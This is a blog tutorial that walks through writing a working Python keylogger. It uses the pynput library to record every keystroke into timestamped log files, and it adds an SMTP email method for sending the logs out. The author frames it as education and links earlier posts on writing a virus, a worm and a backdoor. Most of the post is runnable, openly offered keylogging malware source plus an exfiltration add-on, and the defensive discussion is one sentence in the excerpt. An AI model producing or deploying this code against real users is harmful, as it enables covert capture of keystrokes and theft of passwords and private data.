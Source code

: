 ```yaml
---
layout: single
title: "Write A Basic Keylogger in Python"
excerpt:  "Want to understand how keyloggers work? This blog post will guide you through writing a basic keylogger in Python. Keyloggers can be useful tools for monitoring computer activity, but they can also be used maliciously to steal sensitive information. By building a keylogger yourself, you can gain a deeper understanding of how they function and how to protect against them."
seo_title:  "Learn How Keyloggers Work Through Writing a Basic Keylogger in Python" 
seo_description:  Your  meta  description
header:
  image: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Keylogging
  - Keylogger
  - Trojan Horse
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```



Keylogger is a simple yet effective program that can monitor a person's keyboard activities. It can be used to spy on a person's data (browsing activities, user credentials, etc.) or to monitor children activities.

It can be designed to store all keystrokes activities in a local log file or can be sent via email depending on how it is designed.

In this tutorial, we will see how to write a simple keylogger in python so that we understand the underlying theme of how it works. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [Write a Worm (Malware) in Python](https://shantoroy.com/security/write-a-worm-malware-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
First, we need to install the module [pynput](https://pynput.readthedocs.io/en/latest/index.html). This module is used to control and monitor `keyboard` or `mouse/trackpad` activities.
```
$ pip install pynput
```

Now, for our simple program, we import the following modules

```python
from pynput.keyboard import Key, Listener
import  logging
import  os
from  datetime  import  datetime
```

## Writing a Keylogger Class
Let's create a keylogger class that contains all the methods we need to perform keylogger activities.

First, we need to create a directory that will contain our log files. We create a subdirectory named `log` in the current directory (from where we are running the script) if does not exist.

```python
class Keylogger:
     
    def create_log_directory(self):
        sub_dir = "log"
        cwd = os.getcwd()
        self.log_dir = os.path.join(cwd,sub_dir)
        if not os.path.exists(sub_dir):
            os.mkdir(sub_dir)
```

Next we create a static method that returns key information if a key is pressed. We need this function for later use.

```python
    @staticmethod
    def on_press(key):
        try:
            logging.info(str(key))
        except Exception as e:
            logging.info(e)
```

Finally, we need to report the keystroke information in a file. We create a text file and name with the current time as a prefix so that the program creates a new file each time it is run with a new filename. Also, we need to configure how we want the information to be stored in the log file using `logging.basicConfig` format. And then we use the `Listener` method to track keystroke information where we pass our previous static method as a callback.
```python
    def write_log_file(self):
        # time format example: '2021-05-29-171747'
        time = str(datetime.now())[:-7].replace(" ", "-").replace(":", "")
        # logging info in the file
        logging.basicConfig(
                 filename=(os.path.join(self.log_dir, time) + "log.txt"),
                 level=logging.DEBUG, 
                 format= '[%(asctime)s]: %(message)s',
             )
        
        with Listener(on_press=self.on_press) as listener:
            listener.join()
```

## Running the Script
Let's create the main function where we create an object of the `Keylogger` class, and then call the methods one after another.

```python
if  __name__ == "__main__":
	klog = Keylogger()
	klog.create_log_directory()
	klog.write_log_file()
```

Note that, while writing the code, I could avoid creating a class and use the methods as basic python functions. However, it is better to use classes so that you can add other functionalities when you need in the future.

Now, run the script from the terminal and check the created log files.
```sh
$ python keylogger.py
```

The whole is available [here](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/keylogger/keylogger.py).

## Other Functionalities
You can add more functionalities, for example sending the logs via email or the log file as email attachments. 
```python
    def send_mail(self, email, password, TO, msg):
        with smtplib.SMTP("smtp.gmail.com", 587) as server:
            try:
                server.starttls()    # enable secure TLS mode
                server.login(email, password)
                server.sendmail(email, TO, msg)
            except Exception as e:
                pass
            finally:
                server.quit()
```
I will post details on how to send message via email or send an attachment with email in a seperate post.

That's it! Thanks for being with me. Cheers!



## References
* [pynput: Handling the keyboard](https://pynput.readthedocs.io/en/latest/keyboard.html)
* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [How to Make a Keylogger in Python](https://www.thepythoncode.com/article/write-a-keylogger-python)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTcwODExMjk3NiwtMTM2OTg2NTg2LDE3OT
E2NTU2MzgsLTE2NDc4MzE0OCwtNzQzNzk1MDc4LDEzMDIzMzE4
MzZdfQ==
-->